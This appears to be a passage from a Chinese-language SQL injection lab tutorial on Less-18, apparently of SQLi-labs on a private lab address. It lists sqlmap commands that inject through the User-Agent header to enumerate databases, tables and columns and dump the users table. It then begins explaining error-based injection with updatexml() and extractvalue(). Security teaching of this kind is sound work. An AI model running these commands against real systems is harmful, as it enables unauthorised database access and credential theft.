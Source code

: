 `User-Agent`

##### 数据库名

```bash
sqlmap -u "http://192.168.70.14:8088/Less-18/" --data "uname=admin&passwd=admin"  --batch --purge --technique E --level 3 -p User-Agent --dbs
```

![image-20240807201510289](../../../../repo/assets/19.SQL注入/image-20240807201510289.png)

##### 表名

```
sqlmap -u "http://192.168.70.14:8088/Less-18/" --data "uname=admin&passwd=admin"  --batch --purge --technique E --level 3 -p User-Agent -D security --tables
```

![image-20240807201543171](../../../../repo/assets/19.SQL注入/image-20240807201543171.png)

##### 字段名

```
sqlmap -u "http://192.168.70.14:8088/Less-18/" --data "uname=admin&passwd=admin"  --batch --purge --technique E --level 3 -p User-Agent -D security -T users --column  
```

![image-20240807201613977](../../../../repo/assets/19.SQL注入/image-20240807201613977.png)

##### 字段值

```
sqlmap -u "http://192.168.70.14:8088/Less-18/" --data "uname=admin&passwd=admin"  --batch --purge --technique E --level 3 -p User-Agent -D security -T users --dump
```

![image-20240807201637170](../../../../repo/assets/19.SQL注入/image-20240807201637170.png)



## **利用报错函数** **Updatexml** **和** **extractvalue** **带**回回显流量分析

### **一、**updatexml()函数

#### **使用前提：**

在 mysql 高 版本 中( 大 于 `5.1` 版 本) 中 添加了对 **XML 文档**进 行 **查询 和 修改** 的 函数 ，

`updatexml()`,`extracvalue()`

而显示错误则需要在开发程序中采用 `print_r mysql_error()`函数，将 mysql 错误信息输出。

#### **Updatexml** **函数本身介绍**

作用：改变文档中符合条件的节点,使用不同的 xml 标记匹配和替换 xml 块的函数。
